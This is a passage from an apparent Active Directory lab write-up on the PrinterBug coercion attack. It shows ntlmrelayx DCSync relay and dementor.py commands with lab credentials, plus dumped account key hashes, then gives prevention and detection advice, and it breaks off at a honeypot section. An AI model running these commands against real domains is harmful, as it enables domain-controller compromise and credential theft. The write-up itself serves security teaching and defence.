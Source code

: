 ```bash
sudo impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
```

#### 2. Trigger the PrinterBug with `dementor.py`

On Kali:

```bash
python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123
```

Output:

```
[*] Got expected RPC_S_SERVER_UNAVAILABLE exception. Attack worked
```

#### Capture Domain Credentials

`ntlmrelayx` performs DCSync and dumps credentials:

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FoUAMGPsOdp3FL651ws64%2FScreenshot%202025-09-13%20at%2010.14.30%E2%80%AFPM.png?alt=media&#x26;token=75348f45-9d9f-40c6-88f2-4798118be4a0" alt=""><figcaption></figcaption></figure>

Administrator:des-cbc-md5:d9b53b1f6d7c45a8\
krbtgt:des-cbc-md5:580229010b15b52f\
DC2$:des-cbc-md5:8fad7525b9cbc47f

### Prevention

To prevent PrinterBug attacks:

1. **Disable Print Spooler** on all non-print servers (especially Domain Controllers).
2. If the service must remain running, disable the remote RPC endpoint:

* Registry key:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers
RegisterSpoolerRemoteRpcEndPoint = 2  (DWORD 32-bit)
```

* `1` = enabled, `2` = disabled

3. Restart DC1 after the registry change.

***

### Detection

* Exploiting the PrinterBug generates network connections to the Domain Controller, but these are too generic for detection alone.
* When performing DCSync via NTLMRelayx, **no Event ID 4662** is generated.
* Correlate all logon attempts from core servers with known static IPs to detect suspicious behavior.

***

### Honeypot Option


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami  